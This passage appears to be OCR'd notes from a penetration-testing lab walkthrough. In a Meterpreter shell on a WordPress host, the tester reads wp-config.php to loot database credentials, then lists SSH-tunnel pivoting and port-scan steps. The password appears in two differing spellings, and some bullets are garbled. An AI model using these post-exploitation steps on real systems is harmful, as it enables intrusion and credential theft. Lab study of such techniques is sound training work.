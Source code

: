 -    this basic information gathering, we learn that the **host is named “Ajla”**, the **IP address is 10.4.4.10,** and the version of** Linux is Ubuntu 16.04.12 on a 4.4.0-21-generic kernel**.

  - collected this basic information, we can move on to more specific enumeration.
   
   -    **target is running WordPress** and we found out that the **database is on another host**,we know that **there should be database credentials somewhere on this system.**

-    A quick Googlesearch reveals that the **wp-config.php file is where we can find the database configuration forWordPress**.

```bash
meterpreter > shell
Process 9702 created.
Channel 1 created.
pwd
/var/www/html/wp-content/plugins/plugin-shell
cd /var/www/html
ls -alh
...
-rw-r--r-- 1 www-data www-data 2.3K Jan 20 2019 wp-comments-post.php
-rw-r--r-- 1 www-data www-data 2.9K Jan 7 2019 wp-config-sample.php
-rw-r--r-- 1 www-data www-data 2.7K Dec 6 18:07 wp-config.php
drwxrwsr-x 6 www-data www-data 4.0K Dec 9 19:04 wp-content
...
cat wp-config.php
...
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );
/** MySQL database username */
define( 'DB_USER', 'wp' );
/** MySQL database password */
define( 'DB_PASSWORD', 'Lv9EVQq86cfi8ioWsqFUQyU' );
/** MySQL hostname */
define( 'DB_HOST', '10.5.5.11' );
```

   - **wp_config.php file**, we find that the database** IP address is set to 10.5.5.11**.
   
   -   We also discovered a **MariaDB username of “wp”** and that the password for this account is**“Lv9EVQq86cfi8ioWsqFUQy"**.
   
   # Summary
- access database through local port forwarding through ssh tunnel
- create  ssh tunnel in the back ground
- scan opening ports in the target machine
- upload portscan.sh through meterpreter shell
- open ssh tunnel without prompting for passwords
prevent user from x11 forwarding  strict action to take from misleading

-----------------------------------------
-----------------------------------------
-    We have a shell on the WordPress box as the **www-data user and we also have network access to the database via Ajla.**
